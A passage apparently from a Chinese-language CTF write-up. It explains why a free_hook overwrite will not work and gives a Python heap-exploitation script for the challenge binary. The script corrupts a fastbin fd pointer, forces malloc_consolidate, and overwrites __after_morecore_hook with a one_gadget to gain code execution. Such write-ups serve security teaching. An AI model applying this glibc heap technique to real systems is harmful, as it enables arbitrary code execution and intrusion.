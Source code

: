 所以我们没办法像`free_hook`那样改成 system 之后传入`/bin/sh`了

那么可以尝试使用 one_gadget

测试后发现`rax==NULL`这个条件是满足的

```
age = 1
# ====增大mmap阈值
large = malloc(0x5fff8, 'aaaa')
free(large)

# ====增大system_mem
large = malloc(0x5fff8, 'aaaa')

# ====修改fastbin的fd指针
chunk_A = malloc(0x88, "AAAA")
chunk_B = malloc(0x88, "BBBB")

free(chunk_A)
free(chunk_B)

chunk_C = malloc(0xa8, "CCCC")
chunk_D = malloc(0x88, "DDDD")

free(chunk_C)
chunk_E = malloc(0x88, "AAAA")

free(chunk_E)
free(chunk_D)

free(chunk_B)

chunk_F = malloc(0x88, 'FFFF')
chunk_G = malloc(0x88, p64(elf.sym.user))
# =======

# ====触发malloc_consolidate
free(large)

# ====sort到largebin
amend_age(0x80001)
malloc(0x80008, 'xxxx')

# ====修改free_hook
distance = libc.sym.__after_morecore_hook - 0x20 - elf.sym.user
amend_age(distance+0xa1)
malloc(distance,'HHHH')

malloc(0x88,p64(libc.address+0x3ff5e))
malloc(0x60008, "")

```
